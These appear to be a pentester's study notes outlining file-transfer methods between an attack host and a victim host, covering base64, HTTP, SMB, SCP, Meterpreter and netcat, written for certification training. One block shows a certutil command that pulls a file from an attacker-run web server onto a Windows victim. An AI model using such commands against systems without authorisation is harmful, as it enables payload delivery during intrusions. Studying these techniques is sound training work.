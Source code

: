 # TODO
* htba file transfers modult nezzuk meg
* ejpt repobol nezzuk meg a methodokat
# Basic file transfer methods
## Base64 encode - decode - copy/paste between machines
* Base64 encoding data on source machine
* Copy-pasting base64 string from source machine to dest machine
* Base64 decoding on destination machine (+ redirect output to file)
## HTTP file transfer
### From Attack host to Victim host (Linux)
* python web server + wget
### From Attack host to Victim host (Windows)
* python web server + powershell iwr
* python web server + certutil
<pre>
$ python -m http.server 8000
C:\> certutil -urlcache -split -f http://10.10.10.2:8000/file.txt
</pre>
### From Victim host (Linux) to Attack host
* python web server + wget
### From Victim host (Windows) to Attack host
????
### Alternatives for tools
* alternatives for python: python3, python2.7, php, perl, ruby, ...
* alternatives for wget: curl, powershell iwr, certutil
## SMB file transfer
## SCP file transfer
## Meterpreter file transfer
## Other solutions
* RDP mounted drive
* HTTP file upload server hosted on attack machine + power shell client script
* Netcat pipes + redirect
* FTP
